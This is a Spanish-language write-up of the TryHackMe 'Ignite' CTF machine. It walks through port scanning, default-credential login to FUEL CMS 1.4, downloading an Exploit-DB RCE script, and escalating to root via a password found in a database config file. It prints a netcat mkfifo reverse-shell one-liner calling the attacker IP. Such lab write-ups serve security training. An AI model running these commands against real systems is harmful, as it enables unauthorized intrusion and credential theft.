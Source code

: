 ```yaml
---
title: "Ignite - Writeup"
date: 2025-03-12
author: "Eric González"
tags:
  - TryHackMe
  - CTF
image: "https://github.com/user-attachments/assets/6fc50d8c-a641-43f2-a520-4408870d642a"

---
```


![{DC58F93F-3185-4714-8695-BD88B891E8DF}](https://github.com/user-attachments/assets/0fa46990-3c83-4472-bf45-95461e35774a)


## Introducción

**Ignite** es una máquina de nivel fácil en TryHackMe (THM) diseñada para practicar explotación del gestor de contenidos (FUEL CMS). En este writeup, analizaremos los pasos clave para comprometer la máquina, desde el reconocimiento hasta la escalación de privilegios.

## Herramientas 

* [Kali](https://www.kali.org/)
* [Nmap](https://nmap.org/)
* [dirb](https://dirb.sourceforge.net/about.html)
* [netcat](https://netcat.sourceforge.net/)

## Detalles

* Attacker IP: 10.9.2.48
* Target VM Type: TryHackMe
* Target IP: 10.10.74.195
* Target Network: TryHackMe VPN

## Enumeración

Comenzamos con un escaneo de puertos para identificar servicios en ejecución:

```bash
nmap -sS --min-rate 5000 -n -Pn 10.10.74.195
```

![{F7095E70-37E1-4E45-8520-7D815AFEEE71}](https://github.com/user-attachments/assets/cce5e0f0-2a74-4c1e-be1a-2cbdc17b7922)


```bash
nmap -sCV --min-rate 5000 -p80 -n -Pn 10.10.74.195
```

![{D4E29788-6ED1-4C2F-962D-3BA81C391089}](https://github.com/user-attachments/assets/cdfbc61b-f17b-4cb8-b6dd-ecfeb88120bc)


Vemos que hay un servicio web, le tiramos un whatweb para obtener información y vemos el título de **FUEL CMS**, vamos a ver de que se trata.

```bash
whatweb http://10.10.74.195/
```
![{912AA099-15C6-41B6-BD4B-206A6B3872ED}](https://github.com/user-attachments/assets/1661bd15-2170-4cbb-aafd-5fda784fc253)

Accedemos dentro del servicio web a ver de que se trata, y vemos que efectivamente se trata del gestor de contenidos Fuel, de version 1.4.

![{C2E78ABF-884A-495C-BF8C-616E271669C5}](https://github.com/user-attachments/assets/f806be25-84a2-4158-83d1-4476afdb5008)

Si bajamos un poco nos da información sobre el panel de administración y la contraseña por defecto.

![{9E9804CC-0EAA-452B-B7FE-919E8B39151D}](https://github.com/user-attachments/assets/036a541c-8fe5-48a4-82f5-ebdd7443960b)

Vamos a tratar de acceder.

![{84F2E50F-00E6-4F67-AACE-FB0FBC580144}](https://github.com/user-attachments/assets/5810bd3a-1c2d-45f7-afc9-554dc29c5d5e)

Vemos que estamos dentro del panel de administración... Muy sencillo no?.

![{FFB207F0-9619-4CB6-B27C-B162F87B7115}](https://github.com/user-attachments/assets/9db4ee9c-3a38-42fb-8b20-c93a3ee15b87)


## Explotación

El objetivo aquí es tener acceso por consola y escalar privilegios dentro del sevidor, así que como anteriormente vimos la versión del CMS vamos a buscar un exploit que nos pueda servir... 
Y efectivamente tenemos uno que nos puede ir bien!.

![{1CDF0191-55F7-498C-B987-AA85B15E334B}](https://github.com/user-attachments/assets/054b54cd-f414-4c6c-8327-44b13d3881ff)

Lo descargamos y modificamos la IP para apuntar al servidor, también eliminamos la linea de "proxy" ya que no será necesario.

```bash
wget https://www.exploit-db.com/raw/47138
```

![{6614E678-5BBF-4D1F-8E49-BD1F2B630CB9}](https://github.com/user-attachments/assets/8c7f31fc-0d09-4c6b-b2d0-ff40a85af682)

![{5A7BBC30-6746-4B63-BF39-56BF26895008}](https://github.com/user-attachments/assets/7ec532d1-c26c-4056-863d-518f616b1b32)


Ejecutamos el script, y a través del parámetro **cmd:** podemos ejecutar comandos y acontecer un (RCE), aunque no funciona del todo bien.

![{50447B06-53A0-4DD9-BE49-189EACDC88E2}](https://github.com/user-attachments/assets/b976c2fd-f156-4211-93fe-e4adf2f1a388)

Vamos a generar una reverse shell a la vez que nos ponemos en escucha por el puerto que queramos, en mi caso el **443**

```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.9.2.48 443 > /tmp/f
```

![{22137FFE-4681-4069-956B-240A3AD5F01F}](https://github.com/user-attachments/assets/c988e414-b6c7-42c1-8408-4c3d5f8ac6eb)


## Post Explotación

Una vez dentro del sistema vamos a escalar provilegios, anteriormente en la web vimos rutas que nos llamaron la atención.
Ya que nos habla de la instal·lación de la base de datos.

![{DDA7C2F5-46FF-4883-A5D7-95F471E7D786}](https://github.com/user-attachments/assets/895cb934-3149-4cf6-9960-b8217ecb2288)

Vamos a investigar el archivo **database.php** y que sorpresa... 
Vemos la contraseña de root expuesta.

```bash
cat fuel/application/config/database.php
```

![{4AD81C04-14FA-46A9-B0D3-FFF762AF4FE0}](https://github.com/user-attachments/assets/662805e7-8929-4543-b6b6-81d0f60223a0)

Nos convertimos en root usando la contraseña que hemos obtenido y ya podriamos leer las flags.

![{45A5B673-9702-4BBC-B17D-6F1D81DE15CF}](https://github.com/user-attachments/assets/e79a592f-1980-477c-a5ca-80596c0af11e)
